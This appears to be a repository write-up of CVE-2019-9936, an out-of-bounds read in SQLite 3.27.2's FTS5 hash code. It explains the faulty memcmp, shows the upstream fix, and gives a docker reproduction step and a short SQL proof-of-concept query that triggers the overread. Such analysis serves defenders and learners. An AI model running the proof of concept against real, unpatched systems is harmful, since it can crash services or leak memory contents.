


# CVE-2019-9936 CWE-125 SQLite heap buffer overread

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **CWE-125（Out-of-bounds Read）**

## Vulnerability Mechanism
When processing long prefix queries, SQLite's FTS5 module does not correctly limit the length of the query string, which may cause memory access to exceed the allocated buffer range, thereby triggering heap buffer overread.

## Vulnerability Location
The ext/fts5/fts5_hash.c file is responsible for hash table operations and term matching processing.

The loop at line 445 is used to handle word lookup and merging in the FTS5 hash table. In line 448, the word matching section, when performing word matching, if `pTerm` is not zero, the code directly uses `memcmp` to compare the current entry's term with the incoming `pTerm`. Here, the `memcmp` uses `nTerm` bytes for comparison, without handling boundary conditions. If the length (`pIter->nKey`) of a term is shorter than `nTerm` and the code still executes `memcmp`, it may result in a read from memory beyond the target term (i.e., heap buffer overread). In such cases, `memcmp` may access invalid memory, leak sensitive information, or even cause crashes.

```c
// fts5_hash.c file, line 445
for(iSlot=0; iSlot<pHash->nSlot; iSlot++){
  Fts5HashEntry *pIter;
  for(pIter=pHash->aSlot[iSlot]; pIter; pIter=pIter->pHashNext){
// 448 lines ***** ⚠️ vulnerabilities *****
    if( pTerm==0 || 0==memcmp(fts5EntryKey(pIter), pTerm, nTerm) ){
      Fts5HashEntry *pEntry = pIter;
      pEntry->pScanNext = 0;
      for(i=0; ap[i]; i++){
        pEntry = fts5HashEntryMerge(pEntry, ap[i]);
        ap[i] = 0;
      }
    }
  }
}
```

## Remediation
An additional check has been added to ensure that `memcmp` is only performed when the current entry's term length (`pIter->nKey`) is long enough and matches the length of the `nTerm`. If `pTerm` is non-zero, matching is only performed at `pIter->nKey + 1 >= nTerm`. This means that only when the current term is long enough and greater than or equal to the search length will a term be compared.

```diff
Index: ext/fts5/fts5_hash.c
==================================================================
--- ext/fts5/fts5_hash.c
+++ ext/fts5/fts5_hash.c
@@ -454,11 +454,13 @@
   memset(ap, 0, sizeof(Fts5HashEntry*) * nMergeSlot);
 
   for(iSlot=0; iSlot<pHash->nSlot; iSlot++){
     Fts5HashEntry *pIter;
     for(pIter=pHash->aSlot[iSlot]; pIter; pIter=pIter->pHashNext){
-      if( pTerm==0 || 0==memcmp(fts5EntryKey(pIter), pTerm, nTerm) ){
+      if( pTerm==0 
+       || (pIter->nKey+1>=nTerm && 0==memcmp(fts5EntryKey(pIter), pTerm, nTerm))
+      ){
         Fts5HashEntry *pEntry = pIter;
         pEntry->pScanNext = 0;
         for(i=0; ap[i]; i++){
           pEntry = fts5HashEntryMerge(pEntry, ap[i]);
           ap[i] = 0;
```

## Affected Versions
SQLite = 3.27.2

## Environment Setup
Start the Docker environment with SQLite version 3.27.2, which enables ASAN memory detection at compile time

```txt
NIST:NVD   Base Score:7.5 HIGH   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:sqlite:sqlite:3.27.2:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Go to the container command line and run the PoC file. You can see that ASan detected a buffer overflow (`heap-buffer-overflow`).

```bash
docker exec -it sqlite-3.27.2 sqlite3 test_db ".read CVE-2019-9936-PoC.sql"
```



## PoC Analysis

```sql
CREATE VIRTUAL TABLE t13 USING fts5(x, detail='none');

BEGIN;
INSERT INTO t13 VALUES('AAAA');
SELECT * FROM t13('BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB*');
END;
```

A virtual table called `t13` was created, using the `fts5` module. This table contains a column `x` and specifies `detail='none'`, meaning no detailed metadata is stored. Afterwards, a prefix query is executed in the transaction, providing a very long string `'BBBBBBBBBBBB...*'`, with the goal of performing a query starting with `'BBBB'`. `*` is the FTS5 wildcard used to represent all matches starting with `'BBBB'`. This triggers the full-text search feature of the FTS5 module, which finds all entries starting with `BBBB`.

When performing a long prefix query, functions like `fts5HashEntrySort` may attempt to read more bytes from the hash table than the actually allocated memory, causing the heap buffer to overread.

## References
[NVD - CVE-2019-9936](https://nvd.nist.gov/vuln/detail/CVE-2019-9936)

[SQLite: Check-in [b3fa58dd74\]](https://sqlite.org/src/vinfo/b3fa58dd7403dbd4?diff=2&proof=559498560)
